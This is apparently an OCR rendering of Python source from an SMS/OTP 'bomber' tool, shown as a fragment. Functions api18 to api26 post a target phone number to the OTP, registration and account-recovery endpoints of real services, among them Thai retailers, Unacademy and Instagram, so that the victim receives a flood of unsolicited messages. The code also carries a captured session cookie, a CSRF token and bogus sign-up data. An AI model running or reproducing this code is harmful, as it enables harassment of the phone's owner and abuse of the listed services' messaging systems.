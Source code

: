              "Accept-Language": "th-TH,th;q=0.9,en;q=0.8", "Cookie": "berlnw=s%3AaKEA2ULex-QQ7U6jr0WCQGs-Mz3eJFJn.RsAXcleV2EVFN4j%2BPqDivbqSYAta0UYtyoM65BrxuV0; _referrer_og=https%3A%2F%2Fwww.google.com%2F; _first_pageview=1; _jsuid=4035440860; _ga=GA1.2.766623232.1635154743; _gid=GA1.2.1857466267.1635154743; _gac_UA-90695720-1=1.1635154743.CjwKCAjwq9mLBhB2EiwAuYdMtU_gp7mSvFcH4kByOTGf-LsmLTGujv9qCwMi1xwWSuEiQSOlODmN-RoCMu4QAvD_BwE; _fbp=fb.1.1635154742776.771793600; _gat_gtag_UA_90695720_1=1"})

    def api18(phone):

        post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",

             json={"on": {"value": phone, "country": "66"}, "type": "mobile"})

    def api19(phone):

        post(

            f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-{phone}")

    def api20(phone):

        post("https://shop.foodland.co.th/login/generation",

             data={"phone": phone})

    def api21(phone):

        post("https://jdbaa.com/api/otp-not-captcha",

             data={"phone_number": phone})

    def api22(phone):

        post("https://unacademy.com/api/v3/user/user_check/",

             json={"phone": phone, "country_code": "TH"}, headers={}).json()

    def api23(phone):

        post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp",

             data={"phone": phone})

    def api24(phone):

        post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register", json={"username": phone, "password": "6302814184624az", "name": "0903281894", "provinceCode": "28",

             "districtCode": "393", "subdistrictCode": "3494", "zipcode": "40260", "siebelCustomerTypeId": "710", "acceptTermAndCondition": "true", "hasSeenConsent": "false", "locale": "th_TH"})

    def api25(phone):

        post("https://store.boots.co.th/api/v1/guest/register/otp",

             json={"phone_number": phone})

    def api26(phone):

        post("https://www.instagram.com/accounts/account_recovery_send_ajax/", data=f"email_or_username={phone}&recaptcha_challenge_field=", headers={

             "Content-Type": "application/x-www-form-urlencoded", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36", "x-csrftoken": "EKIzZefCrMss0ypkr2VjEWZ1I7uvJ9BD"}).json
